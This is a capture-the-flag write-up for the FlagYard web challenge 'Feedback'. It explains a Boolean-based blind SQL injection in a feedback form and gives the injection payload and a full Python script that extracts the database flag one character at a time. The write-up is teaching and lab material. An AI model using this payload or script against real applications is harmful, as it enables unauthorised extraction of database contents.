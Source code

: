 # Feedback

**Challenge Name**: Feedback  
**Category**: Web  
**Points**: 120  
**Platform**: FlagYard

## Challenge Overview:
The **Feedback** challenge involves exploiting a **SQL Injection** vulnerability in a web application’s feedback submission form. The goal is to extract a flag hidden in the database by using **Boolean-based blind SQL Injection** to reveal each character of the flag, one at a time.

### Exploitation Process:

#### 1. **Identifying the Vulnerability**:
The challenge provides an input field where users can submit feedback. By inspecting the request headers and body, I identified that the feedback form used SQL queries to store and retrieve feedback data. The **SQL Injection** vulnerability allowed me to inject malicious SQL queries to interact with the backend database.

#### 2. **Crafting the SQL Injection Payload**:
To retrieve the flag, I crafted a **SQL Injection** payload that would:
- Use a **substring function** to pull one character of the flag at a time.
- Use a **conditional query** to check if the guessed character matches the one stored in the database.

The payload used the following logic:
```sql
ana'||(select CASE WHEN substr((select flag from flag),{position},1)='{character}' THEN 1 ELSE 1/0 END)||'s
```
Where `{position}` represents the character position in the flag (ranging from 1 to 64), and `{character}` is a character from ASCII 32 to 126.

#### 3. **Automating the SQL Injection**:
The script automates the entire process of injecting the payload and checking the response. It:
- Loops over each position of the flag.
- Loops over possible characters (from ASCII 32 to 126) to guess each character of the flag.
- Sends the payload and checks if the response contains the flag at that position.

#### 4. **Receiving Feedback**:
The feedback submission response was checked by the script. If the injection was successful, the server would return a valid response (not an error message like "Something went wrong"). If the character matched, the script would append the character to the flag string and continue to the next character.

#### 5. **Displaying the Flag**:
After the script successfully identifies all characters of the flag, it prints out the complete flag.

---

## Code:

```python
import requests
import re
import itertools
import time
import sys
import threading

print("Please enter the URL:")
url = input("# ")
host = re.sub(r'http://|/$', '', url)
print("=> URL : ", url)
print("[+] Please Enter Your Cookie Session")
token = input("# ")
print("=> Session : ", token)
print("[+] Do you want to see the program trying to display flag? (y/n) ")
debug = input("# ")
while debug not in ["y", "n"]:
    print("[+] Please enter 'y' or 'n'")
    debug = input("# ")

def loading_animation():
    spinner = itertools.cycle(['-', '/', '|', '\\'])
    while getattr(threading.current_thread(), "do_run", True):
        sys.stdout.write(f'\rNow we are getting the flag, please wait {next(spinner)}')
        sys.stdout.flush()
        time.sleep(0.1)

if debug == "n":
    loading_thread = threading.Thread(target=loading_animation)
    loading_thread.start()


def dosqli(url, data):
    headers = {
    "Host": host,
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Connection": "close",
    "Cookie": f"session={token}"
    }
    response = requests.post(url, headers=headers, data=data)
    if "Something went wrong" in response.text:
        return "Wrong"
    else:
        return "Correct"


flag = []
for i in range(1, 65):
    for j in range(32, 126):
        payload = f"ana'||(select CASE WHEN substr((select flag from flag),{str(i)},1)='{chr(j)}' THEN 1 ELSE 1/0 END)||'s"
        data = {"feedback": payload}
        out = dosqli(url, data)
        if out == "Correct":
            flag.append(chr(j))
            sys.stdout.write(chr(j))
            sys.stdout.flush()
            break

if debug == "n":
    loading_thread.do_run = False
    loading_thread.join()

print(f"\nFinal flag: {''.join(flag)}")
print("Done")
```

---

### Conclusion:
The **Feedback** challenge required exploiting an **SQL Injection** vulnerability in the web application to extract the flag. By automating the process of sending **Boolean-based SQL queries**, I was able to progressively guess the characters of the flag and ultimately retrieve it. This challenge is a great example of using SQL injection techniques in a real-world application, emphasizing the importance of securing user inputs in web applications.
